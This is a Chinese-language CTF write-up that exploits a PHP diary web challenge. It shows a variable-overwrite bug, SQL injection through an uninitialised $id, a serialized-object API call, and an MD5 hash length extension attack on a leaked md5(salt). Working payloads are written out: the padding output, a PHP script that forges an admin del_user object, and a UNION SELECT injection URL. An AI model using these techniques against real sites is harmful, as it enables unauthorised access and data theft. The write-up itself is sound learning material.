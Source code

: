 

### writeup 
次题目出的真好,硬生生的增长我这菜鸟的一波姿势.
[官方的writeup](http://bobao.360.cn/ctf/detail/173.html)

首先在公共文件 common.php中发现了一个变量覆盖漏洞:
```php
foreach(Array("_POST","_GET","_COOKIE") as $key){
	foreach($$key as $k => $v){
		if(is_array($v)){
		die("hello,hacker!");
		}else{
			$k[0] !='_'?$$k = addslashes($v):$$k = "";
		}
	}
}
```
为啥变量覆盖,不再讲. 这样写理论上是可以重置任意的变量的,但是这个文件是被其他文件在文件最开始引用的,
所以,即便是这里覆盖了,但是在后面的代码会被再次赋值,又被改过来了,没有办法控制变量.

因此这里只能覆盖掉文件中没有经过初始化操作的变量.
最后在riji.php中发现了下面代码:
```php
if($_SESSION['user'])
{
	$username = $_SESSION['user'];
	@mysql_conn();
	$sql = "select * from user where name='$username'";
	$result = @mysql_fetch_array(mysql_query($sql));
	mysql_close();
	if($result['userid'])
	{
		$id = intval($result['userid']);
	}
}
```
我们发现只要在登陆之后,SESSION就会存在,所以会过第一个判断,但是如果用一个用户登陆之后,再删除了这个用户,
它再拿用户名到数据库中查找,显然是找不到的,那么$result['userid']此时为空,导致 $id这个变量没有被初始化,所以这个变量可控.

再往下看:
```php
<?php
				@mysql_conn();
				$sql1 = "select * from msg where userid= $id order by id";
				$query = mysql_query($sql1);
				$result1 = array();
				while($temp=mysql_fetch_assoc($query)) {
					$result1[]=$temp;
				}
				mysql_close();
				foreach($result1 as $x=>$o)
				{
					echo display($o['msg']);
				}
				?>

```
这里进入数据库查询时, $id没有被单引号包裹,所以 addslashes对它不起作用,造成一次注入.

接下来我们就要看怎么删除这个用户了.要利用到api中的接口函数 
在最下面看到,api参数没有初始化:
```php
$a = unserialize(base64_decode($api));
$a->do_method();
```
而且这个文件包含了公共common.php文件,存在变量覆盖漏洞.我们可以控制$a的执行:
跟踪里面的check函数:
```php
function check(){
		$username = addslashes($this->name);//进入数据库的数据进行转义
		@mysql_conn();
		$sql = "select * from user where name='$username'";
		$result = @mysql_fetch_array(mysql_query($sql));
		mysql_close();
		if(!empty($result)){
			//利用 salt 验证是否为该用户
			if($this->check === md5($result['salt'] . $this->data . $username)){
				echo '(=-=)!!';
				if($result['role'] == 1){//检查是否为admin用户
					return 1;
				}
				else{
					return 0;
				}
			}
			else{
				return 0;
			}
		}
		else{
			return 0;
		}
	}
```
我们需要绕过这个判断:
```php
if($this->check === md5($result['salt'] . $this->data . $username))
```
由于admin用户的$result['salt']是随机生成的,我们不知道,所以我们不知道怎么找到一个满足条件的 $check和$data;

但是我们在forget.php中看到了这个:
```php
if($result['salt'])
		{
			$check = base64_encode(md5($result['salt']));
			$name = $result['name'];
			header("Location:/web/repass.php?username=$name&check=$check&mibao=$mibao&pass=$pass");
		}
```
如果我们用admin用户来忘记密码,那么这个302跳转暴露了 base64_encode(md5($result['salt'])),我们知道了 md5($result['salt']).
要求  md5($result['salt'] . $this->data . "admin") 的值,所以这里存在一个哈希扩展攻击.

所以在忘记密码页面输入用户名admin,看到url跳转,抓到  md5($result['salt'])为 eb7a4f270f13c25ed11c7ad939c23dec
然后利用hash长度扩展攻击,利用[这个工具](https://github.com/JoyChou93/md5-extension-attack)
```bash
$python md5pad.py   eb7a4f270f13c25ed11c7ad939c23dec  admin 16 
Payload:  '\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x00admin'
Payload urlencode: %80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80%00%00%00%00%00%00%00admin
md5: 20b7748454ad6a1fa54b3df0778dbd33
```
的到之后,构造如下代码:
```php
<?php 

class admin{
    var $name = "admin";
    var $check= "20b7748454ad6a1fa54b3df0778dbd33";
    var $data = "\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x00";
    var $method="del_user";   //要调用的函数  
    var $userid="2";  //要删除的用户  
}
$a = new admin(); 
$api = base64_encode(serialize($a));
echo $api;

```
这里的userid是在用户登陆的时候得到的,
```php
if(@$login==1)
{
	
	@mysql_conn();
	$sql = "select * from user where name='$username'";
	$result = @mysql_fetch_array(mysql_query($sql));
	mysql_close();
	if (!empty($result))
	{
		
		if($result['passwd'] == md5($password))
		{
			$user_cookie = '';
			$user_cookie .= $result['userid'];
			$user_cookie .= $result['name'];
			$user_cookie .= $result['salt'];
			$cookies = base64_encode($user_cookie);
			//$cookies = $user_cookie;
			setcookie("user",$cookies,time()+60,'/web/');
			$_SESSION['login'] = 1;
			$_SESSION['user'] = $username;
			header('Location:/web/riji.php');
```
把 cookie base64解密一下,就看到userid了.

然后把生成的api作为参数传入api.php.注意这里因为进行了登陆转状态的判定,所以要用一个新的隐私窗口发包.
发完之后,会看到删除成功的提示,这时候再去刚才那个用户的riji.php页面,发现还是在登陆状态:
此时我们访问
```
http://xxx/riji.php?id=-1 union select 1,2,flag from flag
```
就看到了flag.
